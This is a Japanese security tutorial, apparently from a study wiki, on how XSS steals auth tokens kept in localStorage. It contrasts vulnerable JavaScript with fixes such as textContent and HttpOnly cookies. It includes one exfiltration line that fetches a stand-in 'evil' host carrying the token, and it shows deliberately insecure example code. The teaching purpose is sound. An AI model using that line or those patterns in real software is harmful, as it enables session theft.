



# localStorage と XSS によるトークン窃取（Token Theft via localStorage）

> **一言で言うと:** `localStorage` は JavaScript から無制限に読めるため、[[XSS]] が**1つでも**刺されば `localStorage.getItem('token')` でオリジン内の全トークンが一括で抜かれる。サニタイズ/エスケープは XSS の**発生**を防ぐ主防御、保存場所の選択は防御が**破られた後**の被害を局限する別レイヤー——この2層を分けて考えるのが Defense in Depth（多層防御）。

## なぜ localStorage が危険か — 「JS から丸見え」という一点

`localStorage` と `sessionStorage`（あわせて Web Storage）は、**そのページで動く JavaScript なら誰でも `localStorage.getItem()` で中身を読める**。これは設計どおりの仕様であり、保存したアプリ自身のスクリプトも、XSS で**注入された攻撃者のスクリプト**も、同じオリジンで動く限り区別されない。

対照的に、`HttpOnly` 属性を付けた Cookie は **JavaScript から読めない**（`document.cookie` にすら現れない）。ここが運命を分ける。



> [!info] 用語ミニ辞典
> - **Web Storage（localStorage / sessionStorage）:** ブラウザがオリジン単位で持つキー・バリュー保存領域。`localStorage` はタブを閉じても残り、`sessionStorage` はタブ単位で消える。**どちらも JavaScript から同期的に読み書き可能**で、`HttpOnly` のような「JS から隠す」仕組みは持たない。
> - **同一オリジン（Same-Origin）:** スキーム・ホスト・ポートの3つが一致する範囲。Web Storage はオリジン単位で隔離されるが、**同一オリジンで実行されるスクリプトの間では隔離されない**——だから XSS（被害者オリジンでのスクリプト実行）の前では無力。
> - **XSS（Cross-Site Scripting）:** 攻撃者のスクリプトを被害者のブラウザ・被害者のオリジン上で実行させる脆弱性。詳細は親トピック [[XSS]]。

## 窃取はどう起きるか（メカニズム）

XSS が成立してから localStorage が抜かれるまでは一本道で、しかも**一瞬**で終わる。



ポイントは **「XSS 1 発 = そのオリジンの全 Web Storage が読まれる」** こと。トークンを `localStorage` に置いていれば、注入された 1 行 `fetch('https://evil/?t='+localStorage.getItem('token'))` で根こそぎ持ち出される。複数のトークンや個人情報を Web Storage に貯めていれば、それらもまとめて漏れる。

## 脆弱コード → 修正コード

このドキュメントの核。**「発生を断つ（エスケープ）」と「被害を断つ（保存場所）」の2手**を、脆弱例と対比で示す。

### 脆弱な実装（2つの問題が重なっている）

```javascript
// ❌ 問題1: ログイン後、JWT を localStorage に保存している
async function login(email, password) {
  const res = await fetch('/api/login', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ email, password }),
  });
  const { token } = await res.json();
  localStorage.setItem('token', token); // ← XSS 1 発で抜かれる場所に置いた
}

// ❌ 問題2: ユーザー入力を innerHTML で描画 → XSS の侵入口
function renderComment(comment) {
  const el = document.getElementById('comments');
  el.innerHTML += `<div>${comment}</div>`; // ← エスケープなし。ここから注入される
}
```

`renderComment` に次のような投稿が渡ると、`onerror` が実行されて `localStorage` が外部送信される。

```html
<!-- 攻撃ペイロードの例（comment にこれが入る） -->

```

`<script>` タグは `innerHTML` では実行されないが、`` や `<svg onload>` のような**イベントハンドラ経由**なら実行される。「`<script>` さえ弾けば安全」という発想が通用しないのはこのためだ。

### 修正：発生を断つ × 被害を断つ

```javascript
// ✅ 修正1（発生を断つ）: ユーザー入力は textContent で描画する
function renderComment(comment) {
  const el = document.getElementById('comments');
  const div = document.createElement('div');
  div.textContent = comment; // 文字列として挿入。HTML として解釈されない
  el.appendChild(div);
}
// React/Vue なら {comment} / {{ comment }} の自動エスケープに乗るのが最善。
// どうしても HTML を描画するなら DOMPurify.sanitize() を通す。
// （出力コンテキスト別エスケープの詳細 → [[バリデーションとサニタイズとエスケープ]]）

// ✅ 修正2（被害を断つ）: トークンは JS から読めない場所へ
// サーバー側で Set-Cookie: token=...; HttpOnly; Secure; SameSite=Lax を返し、
// クライアントは localStorage に触らない。Cookie はブラウザが自動送信する。
async function login(email, password) {
  await fetch('/api/login', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include', // Cookie の送受信を許可
    body: JSON.stringify({ email, password }),
  });
  // token を JS で受け取らない・保存しない。HttpOnly Cookie に任せる
}
```

トークンを JS に渡さない設計の要は**サーバー側**にある。レスポンス本文ではなく `Set-Cookie` で `HttpOnly` 属性を付けて返す（下は Go の例。Express でも `res.cookie('token', jwt, { httpOnly: true, secure: true, sameSite: 'lax' })` と同等）。

```go
// サーバー側（Go）— トークンを HttpOnly Cookie で発行（JS から読めない）
func login(w http.ResponseWriter, r *http.Request) {
	// パスワード照合・トークン発行は省略
	http.SetCookie(w, &http.Cookie{
		Name:     "token",
		Value:    token,
		HttpOnly: true,                    // JS（document.cookie / localStorage）から不可視
		Secure:   true,                    // HTTPS のみ送信
		SameSite: http.SameSiteLaxMode,    // CSRF の基本対策（→ [[CSRF]]）
		Path:     "/",
		MaxAge:   3600,
	})
	w.WriteHeader(http.StatusNoContent) // 本文でトークンを返さない
}
```

修正1だけでも修正2だけでも不十分なのが肝心な点だ。**修正1（エスケープ）は XSS の発生確率を下げる**が、依存ライブラリの XSS や DOM-based XSS まではゼロにできない。**修正2（保存場所）は、万一 XSS が起きてもトークンだけは JS から読めないようにする**。両方やって初めて「1 つの穴で全部持っていかれる」状態を脱する。

> サーバー側でユーザー入力を描画する場合（SSR / テンプレート）の出力時エスケープと、`textContent`・フレームワーク自動エスケープ・`innerHTML` の使い分けは、エスケープ機構の専門ドキュメント [[バリデーションとサニタイズとエスケープ]] に詳しい。本ドキュメントは「保存場所」との接続に集中する。

## サニタイズ/エスケープとの関係 — 多層防御の二層

ここが本題。「サニタイズしているから localStorage に置いても安全」は、**役割の違う2つの層を1つと取り違えている**。



| 層 | 手段 | 役割 | localStorage との関係 |
|----|------|------|---------------------|
| ① 発生を防ぐ | バリデーション → **出力時エスケープ** → CSP | XSS そのものを起こさせない | これが完璧なら理論上は localStorage でも漏れない…が完璧は保証できない |
| ② 被害を局限 | トークンを `HttpOnly` Cookie / メモリ / BFF に置く | XSS が起きても**トークンだけは守る** | localStorage を避けることが、この層の具体策 |

**重要な命題:** 「完璧なサニタイズ/エスケープ」を前提に localStorage を安全とみなすのは誤り。理由は、XSS の発生をゼロにはできないから——

- 自分のコードのエスケープ漏れ（1 箇所でも `innerHTML` を使えば穴になる）
- **依存ライブラリの XSS 脆弱性**（自分が完璧でもサプライチェーン経由で混入する）
- **DOM-based XSS**（サーバーを経由せずブラウザ内で完結するため、サーバー側エスケープでは防げない）

これらがある以上、「いつか XSS は起こりうる」前提で設計するのが Defense in Depth。だから**高価値のトークンを「XSS 1 発で全部読める場所」に置かない**。これは①の手抜きを許す話ではなく、①が破れた日に被害を限定するための保険である。

## では何に保存するか — 対策の選択肢

保存場所の選択軸そのもの（不透明トークン / JWT、Cookie / ヘッダ等）は [[認証トークンの形式と転送方式]] に詳しい。ここでは「XSS 耐性」の観点だけ要点を示す。

| 保存先 | JS から読めるか | XSS 耐性 | CSRF | 備考 |
|--------|--------------|---------|------|------|
| `localStorage` / `sessionStorage` | **読める** | ❌ 弱い（1発で窃取） | 強い（手動送信） | 高価値トークンは置かない |
| `HttpOnly` Cookie | **読めない** | ✅ 強い | **要対策**（自動送信→ [[CSRF]]） | `Secure; SameSite` 併用必須 |
| メモリ（JS 変数） | 読める（が永続化されない） | △ XSS実行中のみ露出。リロードで消える | 強い | 短命アクセストークン向き |
| BFF（ブラウザに渡さない） | 渡らない | ✅ 構造的に最強 | BFFがCookie管理 | → [[認証トークンの形式と転送方式]] |

実務での定番は、**短命アクセストークンはメモリ保持**し、**長命リフレッシュトークンは `HttpOnly` Cookie**、あるいは **BFF パターンでブラウザにトークンを一切渡さない**構成。加えて **CSP（Content Security Policy）** を被害局限の追加層として効かせると、注入スクリプトの実行や外部ドメインへの `fetch`（窃取の送信先）そのものを抑止できる（`connect-src` の制限など。詳細は [[XSS]]）。ただし CSP は `connect-src` 以外の送信経路（`` の読み込み、ナビゲーション、DNS prefetch 等）が残りうるため、あくまで「最後の追加層」であって主防御の代わりにはならない。

## よくある誤解・落とし穴

### 1. 「入力をサニタイズしているから localStorage で安全」

最頻出の取り違え。サニタイズ/エスケープは①発生層、保存場所は②被害局限層で、**役割が違う**。サニタイズは「XSS を起きにくくする」だけで「起きたときトークンを守る」効果はない。両層を別々に手当てする。

### 2. 「sessionStorage なら localStorage より安全」

`sessionStorage` はタブを閉じれば消えるが、**開いている間は同一オリジンの JS から丸見え**という点は `localStorage` と同じ。XSS が走るのはまさにページが開いている最中なので、XSS 耐性はほぼ変わらない。永続性が違うだけで防御にはならない。

### 3. 「HttpOnly にすれば XSS は無害化できる」

`HttpOnly` Cookie はトークンの**窃取（持ち出し）**を防ぐが、XSS の被害はそれだけではない。攻撃者は被害者のブラウザ上で、**Cookie が自動送信される性質を使って API を直接叩ける**（送金・投稿・設定変更）し、ページ改ざん・キーロガー・CSRF トークン読み取りも可能。`HttpOnly` は「トークン文字列を盗ませない」対策であって「XSS を無害化する」対策ではない（→ 親トピック [[XSS]] の誤解「HttpOnly Cookie を設定すれば XSS の被害はない」と同じ論点）。

### 4. 「トークンを難読化・暗号化して localStorage に入れれば隠せる」

攻撃者のスクリプトは**あなたのアプリと同じオリジン・同じ権限**で動く。復号や難読化解除に必要なロジックも同じ JS の中にあるため、攻撃者はそれを呼ぶだけでよい。同一オリジン実行の前では、クライアント側の難読化は遅延にしかならない。

## 関連トピック

- [[XSS]] — 親トピック。XSS の発生原理・出力時エスケープ・CSP・DOMPurify。本ドキュメントは「XSS が成功したときクライアント保存に何が起きるか」の深掘り
- [[バリデーションとサニタイズとエスケープ]] — ①発生層の機構。出力コンテキスト別エスケープ、`textContent` / `innerHTML` / DOMPurify の使い分け
- [[認証トークンの形式と転送方式]] — ②被害局限層の選択軸。Cookie / ヘッダ、不透明 / JWT、BFF の比較
- [[セッションとJWT]] — JWT を `localStorage` に置く落とし穴と、HttpOnly Cookie 保存
- [[CSRF]] — `HttpOnly` Cookie に移した場合に必要になる対策（XSS と CSRF はトレードオフ関係）
- [[最小権限の原則]] — CSP（スクリプト実行・送信先の最小化）は最小権限の具体的適用

## 参考リソース

- OWASP — HTML5 Security Cheat Sheet（Web Storage に機密情報を保存しないこと）
- OWASP — Cross-Site Scripting Prevention Cheat Sheet（出力時エスケープが主防御）
- MDN — Window.localStorage（JS からアクセス可能な仕様の確認）
- IETF draft — OAuth 2.0 for Browser-Based Applications（ブラウザでのトークン保管リスクと BFF）

## 理解度セルフチェック

> 答えられなければ本文に戻る。答えはこのファイル内に必ずある。

1. **`localStorage` 保存が `HttpOnly` Cookie 保存より XSS に弱いのはなぜか、30秒で説明せよ。** 「JS から読めるか」に必ず触れること。
2. **「入力をきちんとサニタイズしているので、トークンは localStorage で問題ない」という主張のどこが誤りか。** 多層防御の2つの層に言及して述べよ。
3. **AI生成コードレビュー設問:** AI に「SPA のログイン処理を書いて」と頼んだら次のコードが返ってきた。本文の観点で**問題点を最低3つ**指摘し、それぞれの修正方針を述べよ。

```javascript
async function login(email, password) {
  const res = await fetch('/api/login', { method: 'POST', body: JSON.stringify({ email, password }) });
  const { token, displayName } = await res.json();
  localStorage.setItem('token', token);
  // ようこそメッセージを表示
  document.getElementById('welcome').innerHTML = 'ようこそ ' + displayName + ' さん';
}
```

> [!note]- 解答の指針
>
> > [!info] 用語ミニ辞典
> > - **多層防御（Defense in Depth）:** 単一の防御に頼らず、独立した複数の層を重ねる考え方。ある層が破られても次の層が被害を抑える。本トピックでは「①XSSの発生を防ぐ層（エスケープ等）」と「②起きても被害を局限する層（保存場所）」。
> > - **DOM-based XSS:** サーバーを経由せず、ブラウザ内の JavaScript が URL フラグメントや `location` 等の値を危険な API（`innerHTML` 等）に渡すことで発生する XSS。サーバー側エスケープでは防げないため、保存場所による被害局限の意義が大きい。
> > - **CSP（Content Security Policy）:** ブラウザに「どこのスクリプトを実行してよいか／どこへ通信してよいか」を宣言する HTTP ヘッダ。`connect-src` を絞れば、XSS が起きても攻撃者サーバーへの窃取送信を妨げられる（被害局限の追加層）。
> >
> 1. `localStorage` は**同一オリジンで動く JavaScript なら誰でも `getItem()` で読める**仕様で、自分のコードと XSS で注入された攻撃者のコードを区別しない。だから XSS が 1 つでも成立すれば `localStorage.getItem('token')` でトークンを読み出して外部送信できる。一方 `HttpOnly` Cookie は**JS から読めない**（`document.cookie` にも出ない）ため、XSS が起きてもトークン文字列そのものは盗み出せない。「JS から読めるかどうか」がこの差を生む。
> 2. 誤りは、**役割の違う2つの層を1つと混同**している点。サニタイズ/エスケープは「①XSS の*発生*を防ぐ層」で、保存場所の選択は「②発生してしまった後に*被害*を局限する層」。サニタイズをいくら頑張っても、依存ライブラリの XSS・DOM-based XSS・自分のエスケープ漏れにより発生確率はゼロにならない。だから「①が破れた日」に備えてトークンを JS から読めない場所に置く（②）必要がある。①が完璧なら②は不要、という前提自体が Defense in Depth に反する。
> 3. 問題点（最低限以下を指摘できれば本文を理解している）:
>     - **`localStorage.setItem('token', token)`** — トークンを XSS 1 発で読める場所に保存している。`HttpOnly; Secure; SameSite` Cookie に移すか、メモリ保持＋リフレッシュは HttpOnly Cookie にする。サーバーが Set-Cookie を返す設計に変え、クライアントは token を受け取らない。
>     - **`innerHTML` に `displayName` を連結**している — `displayName` は他人が設定しうる値（プロフィール名等）で、`` 型のペイロードが入れば XSS になる。しかも同じページに保存したばかりのトークンがあるため、自己完結で窃取が成立する。`textContent` を使う（`el.textContent = 'ようこそ ' + displayName + ' さん'`）か、フレームワークの自動エスケープに乗せる。
>     - **発生層と被害局限層の両方が同時に欠けている** — この2つが重なると「XSS の入口（innerHTML）」と「価値ある獲物（localStorage のトークン）」が同居し、最悪の組み合わせになる。片方だけでなく両方を直すこと。
>     - （加点）**`fetch` に `credentials: 'include'` も CSP も無い** — HttpOnly Cookie 方式に移すなら Cookie 送受信の設定が要る。加えて CSP の `connect-src` を絞れば、万一の XSS でも窃取先への送信を抑止できる（被害局限の追加層）。
